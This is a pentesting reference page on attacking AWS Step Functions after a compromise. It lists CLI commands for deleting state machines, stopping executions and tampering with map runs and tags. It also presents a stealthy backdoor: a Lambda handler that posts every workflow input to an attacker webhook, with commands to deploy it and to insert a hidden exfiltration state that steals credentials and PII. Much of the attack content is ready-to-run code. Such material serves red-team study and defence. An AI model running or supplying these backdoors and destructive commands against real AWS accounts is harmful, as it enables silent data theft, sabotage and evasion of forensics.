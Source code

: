 # AWS - Step Functions Post Exploitation

## Step Functions

For more information about this AWS service, check:

[[../../aws-services/aws-stepfunctions-enum.md]]

### `states:RevealSecrets`

This permission allows to **reveal secret data inside an execution**. For it, it's needed to set Inspection level to TRACE and the revealSecrets parameter to true.

![](../../../images/image (348).png)

### `states:DeleteStateMachine`, `states:DeleteStateMachineVersion`, `states:DeleteStateMachineAlias`

An attacker with these permissions would be able to permanently delete state machines, their versions, and aliases. This can disrupt critical workflows, result in data loss, and require significant time to recover and restore the affected state machines. In addition, it would allow an attacker to cover the tracks used, disrupt forensic investigations, and potentially cripple operations by removing essential automation processes and state configurations.

> [!NOTE]
>
> - Deleting a state machine you also delete all its associated versions and aliases.
> - Deleting a state machine alias you do not delete the state machine versions referecing this alias.
> - It is not possible to delete a state machine version currently referenced by one o more aliases.

```bash
# Delete state machine
aws stepfunctions delete-state-machine --state-machine-arn <value>
# Delete state machine version
aws stepfunctions delete-state-machine-version --state-machine-version-arn <value>
# Delete state machine alias
aws stepfunctions delete-state-machine-alias --state-machine-alias-arn <value>
```

- **Potential Impact**: Disruption of critical workflows, data loss, and operational downtime.

### `states:UpdateMapRun`

An attacker with this permission would be able to manipulate the Map Run failure configuration and parallel setting, being able to increase or decrease the maximum number of child workflow executions allowed, affecting directly and performance of the service. In addition, an attacker could tamper with the tolerated failure percentage and count, being able to decrease this value to 0 so every time an item fails, the whole map run would fail, affecting directly to the state machine execution and potentially disrupting critical workflows.

```bash
aws stepfunctions update-map-run --map-run-arn <value> [--max-concurrency <value>] [--tolerated-failure-percentage <value>] [--tolerated-failure-count <value>]
```

- **Potential Impact**: Performance degradation, and disruption of critical workflows.

### `states:StopExecution`

An attacker with this permission could be able to stop the execution of any state machine, disrupting ongoing workflows and processes. This could lead to incomplete transactions, halted business operations, and potential data corruption.

> [!WARNING]
> This action is not supported by **express state machines**.

```bash
aws stepfunctions stop-execution --execution-arn <value> [--error <value>] [--cause <value>]
```

- **Potential Impact**: Disruption of ongoing workflows, operational downtime, and potential data corruption.

### `states:TagResource`, `states:UntagResource`

An attacker could add, modify, or remove tags from Step Functions resources, disrupting your organization's cost allocation, resource tracking, and access control policies based on tags.

```bash
aws stepfunctions tag-resource --resource-arn <value> --tags Key=<key>,Value=<value>
aws stepfunctions untag-resource --resource-arn <value> --tag-keys <key>
```

**Potential Impact**: Disruption of cost allocation, resource tracking, and tag-based access control policies.

---

### `states:UpdateStateMachine`, `lambda:UpdateFunctionCode`

An attacker who compromises a user or role with the following permissions:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowUpdateStateMachine",
      "Effect": "Allow",
      "Action": "states:UpdateStateMachine",
      "Resource": "*"
    },
    {
      "Sid": "AllowUpdateFunctionCode",
      "Effect": "Allow",
      "Action": "lambda:UpdateFunctionCode",
      "Resource": "*"
    }
  ]
}
```

...can conduct a **high-impact and stealthy post-exploitation attack** by combining Lambda backdooring with Step Function logic manipulation.

This scenario assumes that the victim uses **AWS Step Functions to orchestrate workflows that process sensitive input**, such as credentials, tokens, or PII.

Example victim invocation:

```bash
aws stepfunctions start-execution \
  --state-machine-arn arn:aws:states:us-east-1:<victim-account-id>:stateMachine:LegitStateMachine \
  --input '{"email": "victim@example.com", "password": "hunter2"}' --profile victim
```

If the Step Function is configured to invoke a Lambda like `LegitBusinessLogic`, the attacker can proceed with **two stealthy attack variants**:

---

####  Updated the lambda function

The attacker modifies the code of the Lambda function already used by the Step Function (`LegitBusinessLogic`) to silently exfiltrate input data.

```python
# send_to_attacker.py
import requests

def lambda_handler(event, context):
    requests.post("https://webhook.site/<attacker-id>/exfil", json=event)
    return {"status": "exfiltrated"}
```

```bash
zip function.zip send_to_attacker.py

aws lambda update-function-code \
  --function-name LegitBusinessLogic \
  --zip-file fileb://function.zip -profile attacker
```

---

#### Add a Malicious State to the Step Function

Alternatively, the attacker can inject an **exfiltration state** at the beginning of the workflow by updating the Step Function definition.

```malicious_state_definition.json
{
  "Comment": "Backdoored for Exfiltration",
  "StartAt": "OriginalState",
  "States": {
    "OriginalState": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:<victim-id>:function:LegitBusinessLogic",
      "End": true
    }
  }
}

```

```bash
aws stepfunctions update-state-machine \
  --state-machine-arn arn:aws:states:us-east-1:<victim-id>:stateMachine:LegitStateMachine \
  --definition file://malicious_state_definition.json --profile attacker
```

The attacker can even more stealthy to update the state definition to something like this 
{
  "Comment": "Backdoored for Exfiltration",
  "StartAt": "ExfiltrateSecrets",
  "States": {
    "ExfiltrateSecrets": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:victim-id:function:SendToAttacker",
      "InputPath": "$",
      "ResultPath": "$.exfil",
      "Next": "OriginalState"
    },
    "OriginalState": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:victim-id:function:LegitBusinessLogic",
      "End": true
    }
  }  
}
 where the victim won't realize the different 

---

### Victim Setup (Context for Exploit)

- A Step Function (`LegitStateMachine`) is used to process sensitive user input.
- It calls one or more Lambda functions such as `LegitBusinessLogic`.

---

**Potential Impact**:  
- Silent exfiltration of sensitive data including secrets, credentials, API keys, and PII.
- No visible errors or failures in workflow execution.
- Difficult to detect without auditing Lambda code or execution traces.
- Enables long-term persistence if backdoor remains in code or ASL logic.

